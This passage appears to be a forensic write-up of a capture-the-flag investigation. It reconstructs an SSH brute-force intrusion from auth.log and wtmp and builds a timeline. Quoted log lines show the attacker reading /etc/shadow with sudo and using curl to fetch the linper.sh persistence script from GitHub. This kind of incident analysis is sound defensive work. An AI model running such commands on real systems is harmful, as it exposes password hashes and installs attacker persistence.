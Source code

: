 Once logged in, there are a few actions that the cyberjunkie user takes
that are logged in `auth.log`. At 06:37:57, they print the `/etc/shadow`
file containing the password hashes for the users on the system using
`sudo`:



    Mar  6 06:37:57 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/cat /etc/shadow
    Mar  6 06:37:57 ip-172-31-35-28 sudo: pam_unix(sudo:session): session opened for user root(uid=0) by cyberjunkie(uid=1002)
    Mar  6 06:37:57 ip-172-31-35-28 sudo: pam_unix(sudo:session): session closed for user root



About a minute later they download `linper.sh` from GitHub:



    Mar  6 06:39:38 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
    Mar  6 06:39:38 ip-172-31-35-28 sudo: pam_unix(sudo:session): session opened for user root(uid=0) by cyberjunkie(uid=1002)
    Mar  6 06:39:39 ip-172-31-35-28 sudo: pam_unix(sudo:session): session closed for user root



So the command run is
`/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`
(Task 8).

The logs don't have any activity beyond that.

## Results

### Timeline

Putting all that together makes the following timeline:

  Time (UTC)   Description                              Reference
  ------------ ---------------------------------------- ------------
  06:18:01     First entry in `auth.log`.               `auth.log`
  06:31:33     SSH brute force start                    `auth.log`
  06:31:40     root SSH login successful                `auth.log`
  06:31:42     SSH brute force stop                     `auth.log`
  06:32:44     SSH login as root                        `auth.log`
  06:32:45     Terminal session starts as root          `wtmp`
  06:34:18     cyberjunkie user and group created       `auth.log`
  06:35:15     cyberjunkie added to sudo group          `auth.log`
  06:37:24     root session disconnects                 `auth.log`
  06:37:34     SSH login as cyberjunkie                 `auth.log`
  06:37:35     Terminal session starts as cyberjunkie   `wtmp`
  06:37:57     cyberjunkie accesses `/etc/shadow`       `auth.log`
  06:39:38     cyberjunkie downloads `linper.sh`        `auth.log`
  06:41:01     Last entry in `auth.log`                 `auth.log`

### Question Answers
